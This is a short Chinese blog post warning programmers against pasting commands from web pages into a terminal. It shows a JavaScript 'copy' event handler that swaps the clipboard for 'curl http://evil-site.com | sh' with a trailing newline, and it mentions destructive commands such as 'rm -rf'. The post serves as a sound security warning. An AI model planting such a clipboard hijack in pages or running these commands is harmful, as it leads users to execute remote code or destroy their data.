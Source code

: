 ```yaml
---
title: 千万不要往 Shell 里粘贴命令！
date: 2020-10-22 10:56:29
tags: 开发工具
---
```

对于用惯了 IDE 的程序员来说，在终端里敲命令可能没那么顺手，也记不住那么多复杂的命令。比较偷懒的做法就是网上搜相关的命令，复制到剪贴板往命令行窗口里一贴，完事！

但是这么做有很大的风险，为什么呢？

网页里复制的东西，可能并不是你看到的内容。请看大屏幕：
```
<div class="copyme">$ echo "伪装成普通命令"</div>
```
```
document.getElementById('copyme').addEventListener('copy', function(e) {
  e.clipboardData.setData('text/plain', 
      'curl http://evil-site.com | sh \n' // 复制了真实命令
  );
  e.preventDefault();
});
```
看到了吧，利用 DOM 的`copy`事件，可以往剪贴板里放自定义内容。有人可能会说复制了命令我还没回车，不会执行呀！图样图森破，尾巴上带个换行符`\n`，回车都为你代劳了！

这要是复制上了一些危险的命令，比如`rm -rf`，`mv folder /dev/null` 之类的，执行后就爽歪歪了。

所以，为了安全，不要随便往 shell 里粘贴命令。如果一定要复制粘贴，看清楚剪贴板里的内容再执行！